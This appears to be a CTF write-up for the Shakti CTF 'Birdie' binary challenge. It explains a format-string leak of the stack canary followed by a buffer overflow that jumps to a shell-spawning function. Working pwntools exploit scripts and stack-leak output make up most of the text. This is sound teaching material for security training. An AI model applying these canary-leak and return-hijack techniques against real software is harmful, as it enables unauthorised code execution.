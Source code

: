 ```yaml
--- 
layout: post 
title:  "[Shakti CTF] Birdie"
date: "2021-04-05" 
categories: [Pwn, Fsb]
author: eurus 
---
```


For this challenge we have an elf file that doesn't have a PIE but has a stack canary.

```
┌──(pwn)(eurus㉿warfare)-[~/…/shakti_ctf/Birdie]
└─$ python3 solver.py
[*] '/…/shakti_ctf/Birdie/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

in disassembling this elf we can see that we have a string-format vulnerability and also the possibility to make a buffer overflow. We can also see that we have a function that call ```system('/bin/sh')```. In order to win this challenge, we need to redirect the flow of this binary program to this function.

A buffer overflow can be made by leaking the canary on the stack. Fortunately with the format-string vulnerability we can leak information from the binary-program during its execution.

```python
from pwn import *

elf = ELF('./birdie')
context.binary = elf

for i in range(1, 100):
    p = elf.process()
    p.recvuntil('Enter your name\n')
    p.sendline(f"%{i}$p")
    log.info(f"{i}:")
    leak = p.recvuntil('\n')
    log.info(leak)
    p.close()
```

I have written this little script to explore the stack and try to find the exact position where the canary is.

```text
[*] 1:
[*] 0x7ffe1c4a8b70
[*] 2:
[*] 0x20
[*] 3:
[*] 0x7f69ca347e8e
[*] 4:
[*] 0x10
[*] 5:
[*] 0x7f488078e180
[*] 6:
[*] 0xf0b2ff
[*] 7:
[*] 0xc2
[*] 8:
[*] 0x1
[*] 9:
[*] 0x4008dd
[*] 10:
[*] 0xa7024303125
[*] 11:
[*] (nil)
[*] 12:
[*] 0x400890
[*] 13:
[*] 0x400690
[*] 14:
[*] 0x7ffe929cda80
[*] 15:
[*] 0xd6194b70fcac3700
[*] 16:
[*] 0x400890
[*] 17:
[*] 0x7fccfae1ed0a
[*] 18:
[*] 0x7ffc3a997f28
[*] 19:
[*] 0x100000000
[*] 20:
[*] 0x4007e2
```

with this dump of the stack (be careful, this is not the stack of one single execution, but every leak in an offset is an individual execution) the canary is at the offset 15. The stack value can be dumped by sending the string: ```%15$p``` to the server.

Once we have the canary value, theoretically we can perform a buffer overflow. Using cyclic and gdb, we find that the offset to the canary in the execution is 72 bytes. Having this information, I have written a script that redirects the execution of the program.

```python
elf = ELF('./birdie')
context.binary = elf


p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x00000000004007E2')
#p = remote("34.121.211.139", 1111)

p.recvuntil('Enter your name\n')
p.sendline(f"%15$p")
leak = str(p.recvuntil('\n'))
c = leak.replace('b\'','').replace('\\n\'','')

log.info(c)

win = 0x0000000000400873
ret_gd = 0x000000000040060e
canary = int(c, 16)
log.info(str(hex(canary)))
payload = b'A'*72+p64(canary)+p64(0)+p64(ret_gd)+p64(win)

p.recvuntil('Enter the payload\n')
p.sendline(payload)
p.interactive()
```

Now we have a shell that allows us to get the flag!
